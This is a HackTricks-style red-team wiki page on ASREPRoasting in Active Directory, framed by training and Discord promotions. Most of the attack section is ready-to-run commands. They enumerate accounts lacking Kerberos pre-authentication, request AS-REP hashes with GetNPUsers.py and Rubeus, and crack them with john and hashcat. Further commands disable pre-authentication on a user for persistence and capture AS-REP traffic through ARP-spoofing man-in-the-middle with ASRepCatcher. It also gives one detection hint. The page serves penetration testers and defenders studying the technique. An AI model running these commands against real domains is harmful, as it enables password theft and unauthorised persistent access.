 # ASREPRoast

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## ASREPRoast

ASREPRoast is a security attack that exploits users who lack the **Kerberos pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

The main requirements for this attack are:

* **Lack of Kerberos pre-authentication**: Target users must not have this security feature enabled.
* **Connection to the Domain Controller (DC)**: Attackers need access to the DC to send requests and receive encrypted messages.
* **Optional domain account**: Having a domain account allows attackers to more efficiently identify vulnerable users through LDAP queries. Without such an account, attackers must guess usernames.

#### Enumerating vulnerable users (need domain credentials)

{% code title="Using Windows" %}
```bash
Get-DomainUser -PreauthNotRequired -verbose #List vuln users using PowerView
```
{% endcode %}

{% code title="Using Linux" %}
```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  
```
{% endcode %}

#### Request AS\_REP message

{% code title="Using Linux" %}
```bash
#Try all the usernames in usernames.txt
python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
#Use domain creds to extract targets and target them
python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
```
{% endcode %}

{% code title="Using Windows" %}
```bash
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username VPN114user -verbose #From ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```
{% endcode %}

{% hint style="warning" %}
AS-REP Roasting with Rubeus will generate a 4768 with an encryption type of 0x17 and preauth type of 0.
{% endhint %}

### Cracking

```bash
john --wordlist=passwords_kerb.txt hashes.asreproast
hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
```

### Persistence

Force **preauth** not required for a user where you have **GenericAll** permissions (or permissions to write properties):

{% code title="Using Windows" %}
```bash
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
{% endcode %}

{% code title="Using Linux" %}
```bash
bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add uac -f DONT_REQ_PREAUTH
```
{% endcode %}

## ASREProast without credentials

An attacker can use a man-in-the-middle position to capture AS-REP packets as they traverse the network without relying on Kerberos pre-authentication being disabled. It therefore works for all users on the VLAN.\
[ASRepCatcher](https://github.com/Yaxxine7/ASRepCatcher) allows us to do so. Moreover, the tool forces client workstations to use RC4 by altering the Kerberos negotiation.

```bash
# Actively acting as a proxy between the clients and the DC, forcing RC4 downgrade if supported
ASRepCatcher relay -dc $DC_IP

# Disabling ARP spoofing, the mitm position must be obtained differently
ASRepCatcher relay -dc $DC_IP --disable-spoofing

# Passive listening of AS-REP packets, no packet alteration
ASRepCatcher listen
```

## References

* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)

***

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

